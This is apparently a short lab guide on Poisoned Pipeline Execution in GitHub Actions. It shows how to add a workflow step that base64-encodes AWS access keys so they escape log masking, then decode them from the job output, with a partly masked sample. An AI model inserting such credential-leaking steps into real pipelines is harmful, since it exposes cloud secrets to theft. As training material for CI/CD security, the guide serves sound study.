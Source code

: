# CI CD Risks - Pipeline Poisoning Attack Lab

## Prep
1. Within AWS Account, create Amazon Elastic Container Registry named `cicd-sec`
1. Add Github Repository Secrets 
    1. `AWS_ACCESS_KEY_ID`
    1. `AWS_REGION`
    1. `AWS_SECRET_ACCESS_KEY`
    1. `REPO_NAME`
    1. `ECR_REGISTRY`
1. Ensure Branch Protection is disabled within GitHub Repository


## Execute Direct-PPE 

### Add line of code to extract `AWS_ACCESS_KEY_ID` and `AWS_SECRET_ACCESS_KEY` during Pipeline execution after `make build`

```
echo "accesskey: ${{ env.AWS_ACCESS_KEY_ID }}  secretkey: ${{ secrets.AWS_SECRET_ACCESS_KEY }}" | base64
```

### Extract Output from GitHub Workflow Output and 

```
echo "<ENCODED_SECRETS>" | base64 -d
```

example
```
echo "YWNjZXNza2V5OiBBS0xxxxXSEpCQzRYTlNKRSAgc2VjcmV0a2V5OiBBYmJYd1pxd2tMeExmZxxxxQUkhOdU1aR0lkd3d2QjcrRFBpCg==" | base64 -d
accesskey: AKIA2INxxxxx4XNSJE  secretkey: AbbXwZqwkLxLfgfSxxxxxGIdwwvB7+DPi
```